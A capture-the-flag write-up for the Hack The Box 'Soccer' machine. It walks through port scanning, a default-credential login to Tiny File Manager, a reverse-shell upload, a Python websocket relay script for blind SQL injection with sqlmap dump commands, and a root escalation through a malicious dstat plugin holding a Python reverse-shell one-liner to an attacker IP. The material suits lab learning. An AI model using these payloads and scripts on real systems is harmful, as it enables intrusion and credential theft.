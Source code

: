 ### Enumeration

By nmap port scan we have some open tcp and udp ports
```shell
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http         nginx 1.18.0 (Ubuntu)
1026/tcp filtered LSA-or-nterm
9091/tcp open  xmltec-xmlmail
19/udp    closed chargen
1214/udp  closed fasttrack
19374/udp closed unknown
20380/udp closed unknown
32385/udp closed unknown
57843/udp closed unknown
```

![](/Hack-The-Box/soccer/img/1.png

During directory scanning we found some endpoints where one is a login page to `tiny file mnager` and the second one is a upload page which is forbidden
```shell
200      GET      147l      526w     6917c http://soccer.htb/
301      GET        7l       12w      178c http://soccer.htb/tiny => http://soccer.htb/tiny/
301      GET        7l       12w      178c http://soccer.htb/tiny/uploads => http://soccer.htb/tiny/uploads/
```
![](/Hack-The-Box/Mentor/img/2.png

So by using the defaults credentials from github page; we successfully login and found a upload function. so navigating to `/tiny/uploads` and uploaded our revshell payload and recived a shell as `www-data`

SInce the site is running on `nginx` we just navigate to `/etc/nginx/site-availabes` and found a subdomain running on the server
![](/Hack-The-Box/Mentor/img/3.png

![](/Hack-The-Box/Mentor/img/4.png

we signin  and login to the account a found a page to check our tickets. 
![](/Hack-The-Box/Mentor/img/5.png

while checking the html source page we found a websocket connection running on the subdomain
```html
 <script>
        var ws = new WebSocket("ws://soc-player.soccer.htb:9091");
        window.onload = function () {
        
        var btn = document.getElementById('btn');
        var input = document.getElementById('id');
```

Since there is nothing else that caught my eye I digged around and found out that we probably could try to find a blind sql injection like described on
```url
https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html
```

so crafing the script 
```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091/"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"id":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```
Now using sqlmap we have got password for user palyer
```c
sqlmap -u "http://localhost:8081/?id=96680*" --batch --dbs 
sqlmap -u "http://localhost:8081/?id=96680*" --batch -D soccer_db --tables --dbs
sqlmap -u "http://localhost:8081/?id=96680*" --batch -D soccer_db -T accounts  --dump
```

### PRIVILLAGE ESCLATION

when executing 
`find / -type d -writable 2>/dev/null | grep -v -e '^/proc' -e '/run'`
we found a file named dstat in `/usr/local/share`

and while running 
`find / -user root -perm -4000`
we found `/usr/local/bin/doas`
```c#
doas is a command on OpenBSD systems that allows users to execute commands as other users, similar to the sudo command on other Unix-like operating systems. It stands for "do as", as in "perform the following command as the specified user". doas is configured through the /etc/doas.conf file, which specifies which users are allowed to use doas and which commands they are allowed to execute.
```
```python
player@soccer:/usr/local/etc$ cat doas.conf
permit nopass player as root cmd /usr/bin/dstat
```

Now we are abuding  dstat pligins in order to become root user
 create a file named `dstat_bq.py` with our rev_shell payload
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.9",3636));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")

```
upload the file to our target machine using `wget`
copy the file into `/usr/local/share/dstat` and change the permission of the file
check whether our malcious plugin have been loaded
` doas /usr/bin/dstat --list`
![](/Hack-The-Box/Mentor/img/6.png

Open a netcat lisner and execute the following command
`doas -u root /usr/bin/dstat --bq`
![](/Hack-The-Box/Mentor/img/6.png
